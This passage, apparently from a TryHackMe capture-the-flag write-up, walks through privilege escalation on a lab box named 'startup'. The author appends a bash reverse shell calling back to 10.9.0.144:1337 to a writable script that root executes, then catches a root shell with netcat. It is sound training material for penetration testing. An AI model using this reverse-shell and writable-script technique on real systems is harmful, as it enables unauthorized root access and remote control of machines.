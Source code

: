 We see an interesting directory named scripts in the home directory of the current user which is owned by root .Lets try exploring it.

```bash
lennie@startup:~$ ls -la
ls -la
total 20
drwx------ 4 lennie lennie 4096 Nov 12  2020 .
drwxr-xr-x 3 root   root   4096 Nov 12  2020 ..
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 Documents
drwxr-xr-x 2 root   root   4096 Nov 12  2020 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
lennie@startup:~$ cd scripts
cd scripts
lennie@startup:~/scripts$ ls
ls
planner.sh  startup_list.txt
lennie@startup:~/scripts$ cat planner.sh
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~/scripts$ 
```
There is a script(that’s being executed by root) inside the directory which is not writable by the current user but it executes another script named `/etc/print.sh` which is writable by lennie.
So we can try putting a reverse shell script in `/etc/print.sh`

```bash
lennie@startup:~/scripts$ echo 'bash -i >& /dev/tcp/10.9.0.144/1337 0>&1' >> /etc/print.sh 
<echo 'bash -i >& /dev/tcp/10.9.0.144/1337 0>&1' >> /etc/print.sh             
lennie@startup:~/scripts$ cat /etc/print.sh
cat /etc/print.sh
#!/bin/bash
echo "Done!"
bash -i >& /dev/tcp/10.9.0.144/1337 0>&1
lennie@startup:~/scripts$ 
```
we can get root flag from there

```bash
┌──(de4dl0ck㉿kali)-[~]
└─$ nc -lvnp 1337                 
listening on [any] 1337 ...
connect to [10.9.0.144] from (UNKNOWN) [10.10.101.161] 59088
bash: cannot set terminal process group (2026): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# cat root.txt
cat root.txt
THM{--REDACTED--}
root@startup:~# 

```
### Happy Hacking!!!
